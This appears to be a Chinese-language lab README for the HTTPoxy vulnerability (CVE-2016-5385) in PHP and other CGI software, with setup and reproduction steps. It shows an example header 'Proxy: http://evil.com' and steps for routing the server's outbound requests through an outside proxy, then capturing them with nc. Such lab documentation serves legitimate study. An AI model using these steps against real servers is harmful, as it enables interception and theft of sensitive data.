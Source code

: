 # HTTPoxy漏洞（CVE-2016-5385）

根据RFC 3875规定，CGI（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23为例。

当然，该漏洞不止影响PHP，所有以CGI或Fastcgi运行的程序理论上都受到影响。CVE-2016-5385是PHP的CVE，HTTPoxy所有的CVE编号如下：

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

参考链接：

- https://httpoxy.org/
- http://www.laruence.com/2016/07/19/3101.html

## 环境搭建

启动一个基于PHP 5.6.23 + GuzzleHttp 6.2.0的应用：

```
docker-compose up -d
```

Web页面原始代码：[index.php](www/index.php)

## 漏洞复现

正常请求`http://your-ip:8080/index.php`，可见其Origin为当前请求的服务器，二者IP相等：

![](1.png)

在其他地方启动一个可以正常使用的http代理，如`http://*.*.122.65:8888/`。

附带`Proxy: http://*.*.122.65:8888/`头，再次访问`http://your-ip:8080/index.php`：

![](2.png)

如上图，可见此时的Origin已经变成`*.*.122.65`，也就是说真正进行HTTP访问的服务器是`*.*.122.65`，也就是说`*.*.122.65`已经将正常的HTTP请求代理了。

在`*.*.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：

![](3.png)